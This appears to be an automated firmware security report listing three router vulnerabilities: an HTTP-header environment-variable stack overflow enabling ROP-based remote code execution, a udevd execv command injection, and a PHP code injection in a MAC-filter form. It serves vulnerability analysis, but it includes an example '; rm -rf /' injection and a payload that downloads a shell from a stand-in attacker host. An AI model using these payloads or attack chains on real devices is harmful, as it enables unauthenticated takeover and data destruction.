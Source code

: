 ### attack_chain-env_pollution_http_rce

- **File/Directory Path:** `htdocs/fileaccess.cgi`
- **Location:** `HIDDEN: htdocs/fileaccess.cgi→htdocs/cgibin`
- **Risk Score:** 9.8
- **Confidence:** 9.5
- **Description:** Complete HTTP environment variable pollution attack chain: 1) Polluting environment variables via headers such as HTTP_COOKIE/REMOTE_ADDR 2) Multiple components (fcn.000309c4/fcn.0000d17c) failing to validate environment variable length leading to stack overflow 3) Leveraging firmware's disabled ASLR feature to achieve stable ROP attacks. Trigger steps: A single HTTP request containing an excessively long malicious header → pollutes environment variables → triggers CGI component stack overflow → hijacks control flow to execute arbitrary commands. Actual impact: Remote unauthenticated code execution with success probability >90%.
- **Keywords:** HTTP_COOKIE, REMOTE_ADDR, getenv, strncpy, strcpy, ROP, ASLR
- **Notes:** Related vulnerabilities: stack_overflow-network_input-fcn_000309c4 + stack_overflow-http_handler-remote_addr. REDACTED_PASSWORD_PLACEHOLDER evidence: 1) Both vulnerabilities share the same environment variable pollution path 2) Neither has ASLR enabled 3) Stack offset calculation is precisely controllable

---
### command_execution-udev_event_run-0x1194c

- **File/Directory Path:** `sbin/udevd`
- **Location:** `fcn.REDACTED_PASSWORD_PLACEHOLDER@0x1194c`
- **Risk Score:** 9.8
- **Confidence:** 8.75
- **Description:** High-risk command injection vulnerability: The execv call in the udev_event_run function (fcn.REDACTED_PASSWORD_PLACEHOLDER) directly uses unfiltered environment variable parameters. Trigger condition: An attacker sets environment variables containing malicious commands (e.g., '; rm -rf /') via HTTP interface/inter-process communication. Propagation path: External input → fcn.0000eb14 (input processing) → strlcpy copy → fcn.0000e4c0 (formatting) → udev_event_run → execv execution. Actual impact: Arbitrary command execution with REDACTED_PASSWORD_PLACEHOLDER privileges (CVSS 9.8). Boundary check: No metacharacter filtering or path whitelist validation.
- **Code Snippet:**
  ```
  sym.imp.execv(*(puVar16 + 0xfffff360), puVar16 + 0xfffff360);
  ```
- **Keywords:** execv, udev_event_run, fcn.REDACTED_PASSWORD_PLACEHOLDER, fcn.0000e4c0, fcn.0000eb14, strlcpy
- **Notes:** Verify the specific environment variable name (suggest analyzing the input source of fcn.0000eb14 in subsequent steps)

---
### rce-form_macfilter-1

- **File/Directory Path:** `htdocs/mydlink/form_macfilter`
- **Location:** `htdocs/mydlink/form_macfilter (HIDDEN：fwriteHIDDENdophpHIDDEN)`
- **Risk Score:** 9.8
- **Confidence:** 8.75
- **Description:** High-risk Remote Code Execution Vulnerability: When accessing the form_macfilter endpoint and submitting settingsChanged=1, user-controlled $_POST parameters (entry_enable_X/mac_X, etc.) are directly written to the /tmp/form_macfilter.php file without proper filtering. This leads to arbitrary code execution when the file is loaded and executed via dophp('load'). Trigger conditions: 1) Accessing the interface via HTTP request 2) Setting settingsChanged=1 3) Injecting PHP code in entry_enable_X/mac_X parameters (e.g., `;system("wget http://attacker/shell -O /tmp/sh");`). Actual impact: Attackers can obtain REDACTED_PASSWORD_PLACEHOLDER privileges and gain complete control of the device.
- **Code Snippet:**
  ```
  fwrite("a", $tmp_file, "$enable = $_POST[\"entry_enable_\".$i];\n");
  dophp("load",$tmp_file);
  ```
- **Keywords:** dophp, load, $_POST, entry_enable_, mac_, settingsChanged, /tmp/form_macfilter.php, fwrite